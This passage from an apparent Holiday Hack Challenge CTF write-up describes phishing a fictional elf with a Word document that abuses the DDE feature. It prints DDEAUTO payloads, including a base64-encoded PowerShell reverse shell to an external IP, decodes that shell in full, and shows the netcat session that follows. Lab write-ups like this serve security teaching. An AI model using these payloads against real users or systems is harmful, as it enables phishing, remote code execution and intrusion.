 - - [29/Dec/2017 18:27:39] "GET /evil.dtd HTTP/1.1" 200 -
connect to [10.142.0.3] from (UNKNOWN) [10.142.0.13] 49929
```

then we confirm that we have data:

```
alabaster_snowball@hhc17-apache-struts1:/tmp/tmp.k7O7ldiYc2$  ls -lah
total 44K
drwx------   2 alabaster_snowball alabaster_snowball 4.0K Dec 29 18:27 .
drwxrwxrwt 361 root               root                28K Dec 29 18:27 ..
-rw-r--r--   1 alabaster_snowball alabaster_snowball  190 Dec 29 18:27 evil.dtd
-rw-r--r--   1 alabaster_snowball alabaster_snowball  136 Dec 29 18:27 test.txt
alabaster_snowball@hhc17-apache-struts1:/tmp/tmp.k7O7ldiYc2$ cat test.txt
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.3:4443
Connection: Keep-Alive
```

By browsing to http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf we get the next page!


# 7) Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\GreatBookPage7.pdf. What does The Great Book page describe?

Looking through the rest of Alabaster's emails from task 4, we find some hints pointing us towards
a word exploit:

```
Quit worrying Minty,

You have nothing to worry about with me around! I have developed most of 
the applications in our network including our network defenses. We are 
are completely secure and impenetrable.

Sincerely,

Alabaster Snowball.


On 11/15/2017 2:41 PM, minty.candycane@northpolechristmastown.com wrote:
> Hey Alabaster,
>
> You know I'm a novice security enthusiast, well I saw an article a 
> while ago about regarding DDE exploits that dont need macros for MS 
> word to get command execution.
>
> https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
>
> Should we be worried about this?
>
> I tried it on my local machine and was able to transfer a file. Here's 
> a poc:
>
> http://mail.northpolechristmastown.com/attachments/dde_exmaple_minty_candycane.png 
>
>
> I know your the resident computer engineer here so I wanted to defer 
> to the expert.
>
> :)
>
> -Minty CandyCane.
>
```

In addition, we also see that Alabaster himself might be the perfect target
for such an exploit:

```
Ewww, raisin. I loved the gingerbread cookies myself. I think that Mrs 
Claus gave me the recipe. If I find it, ill send it to you in an email. 
I believe it was a a MS Word docx file. So keep an eye out for an email 
containing the words "gingerbread" "cookie" "recipe" and a link or 
attachment to the .docx file.


On 11/15/2017 1:16 PM, pepper.minstix@northpolechristmastown.com wrote:
> I liked the raisin ones myself. Dont know about the gingerbread ones.
>
>
> On 11/15/2017 1:14 PM, sparkle.redberry@northpolechristmastown.com wrote:
>> Me neither, sorry.
>>
>>
>> On 11/15/2017 1:13 PM, mary.sugerplum@northpolechristmastown.com wrote:
>>> Sorry, I dont know that recipe or have any left.
>>>
>>>
>>> On 11/15/2017 1:10 PM, alabaster.snowball@northpolechristmastown.com 
>>> wrote:
>>>> Does anyone have any cookies left over from Mrs Claus cookie stock 
>>>> pile from last year? I'm working on the computer non-stop until 
>>>> Christmas doing development and desperately need some of her north 
>>>> pole famous gingerbread cookies to keep me going.
>>>>
>>>> I already emailed her but for she is not in the North Pole.
>>>>
>>>> I NEEEEED MOAR COOKIES!
>>>>
>>>> -Alabaster Snowball
>>>>
>>>
>>
>
```

We are also given some information about Alabaster's system. namely that
he runs windows, powershell and also has nc.exe installed and available
on the path:

```
On 12/12/2017 2:20 PM, alabaster.snowball@northpolechristmastown.com wrote:

I installed nc.exe to path for my computer.


On 12/5/2017 2:33 PM, alabaster.snowball@northpolechristmastown.com wrote:
> Well powershell is my new love but netcat will always hold a special 
> place in my heart.
>
>
> On 12/5/2017 2:32 PM, minty.candycane@northpolechristmastown.com wrote:
>> You still use netcat on your windows box?
```

So naturally, we give exploiting Alabaster computer a try. Following the
[blog post](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) 
found in one of the emails we produce a .docx with the following payload:

```
{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('https://requestb.in/yayv0hya')" }
```

The payload simply sends a request to a request bin that we have set up so that we can
verify whether the exploit works or not. Turns out that it does, a couple of seconds
after sending an email to Alabaster (with "gingerbread cookie recipe" as subject and
the .docx as attachment), we do get a request to our request bin!



With the basic exploit working it should be fairly easy to change it to open a reverse
shell via nc.exe, which Alabaster is supposed to have installed and on his path. However,
this turns out not to be the case. For some reason or the other using nc.exe did not seem
to work. We do know he is runnig powershell though (as evident from our "test exploit" above),
which means there are multiple other ways for us to gain access other than nc.exe.

A quick google later, we end up at [Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1).
All we have to do now is modifying the script so that it targets the correct ip/port. To
get it to actually run we also had to include the payload directly in the wordfile.
Trying to fetch the script and then running it did not yield any results. To avoid any
shell interpretations we pass our payload as a base64 encoded string via the powershell 
`-e` parameter. The result is the following word field value:

```
{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADYALgAxADAALgAxADMAMQAuADIANQAiACwAMwAwADAAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" }
```

Where the long base64 encoded blob decodes to the following command:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("176.10.131.25",3000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After setting up netcat locally to listen for the connection, we send the email to
alabaster.snowball@northpolechristmastown.com with our new .docx exploit attached.
And again we make sure to specify "gingerbread cookie recipe" as the subject to get
Alabaster to open the file.

It doesn't take long until we have a shell on Alabaster's computer:

```
peter@peter-VirtualBox:~$ nc -lv 3000

Connection from [10.0.2.2] port 3000 [tcp/*] accepted (family 2, sport 51101)
ls


    Directory: C:\Users\alabaster_snowball\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       12/23/2017   4:17 AM              0 file.txt                                                              
-a----       12/23/2017   2:00 PM              0 out.txt                                                               


PS C:\Users\alabaster_snowball> cd c:\
PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       11/14/2017   7:57 PM                inetpub                                                               
d-----        9/12/2016  11:35 AM                Logs                                                                  
d-----        12/5/2017   5:00 PM                Microsoft                                                             
d-----        7/16/2016   1:23 PM                PerfLogs                                                              
d-r---       11/15/2017   2:35 PM                Program Files                                                         
d-----       11/14/2017   8:24 PM                Program Files (x86)                                                   
d-----       11/15/2017   3:03 PM                python                                                                
d-r---       11/14/2017   8:39 PM                Users                                                                 
d-----       11/30/2017   6:23 PM                Windows                                                               
-a----        12/4/2017   8:42 PM        1053508 GreatBookPage7.pdf                                                    


PS C:\> Get-FileHash GreatBookPage7.pdf -Algorithm SHA1

Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
SHA1            C1DF4DBC96A58B48A9F235A1CA89352F865AF8B8                               C:\GreatBookPage7.pdf 
```

The great book describes the witches of Oz.


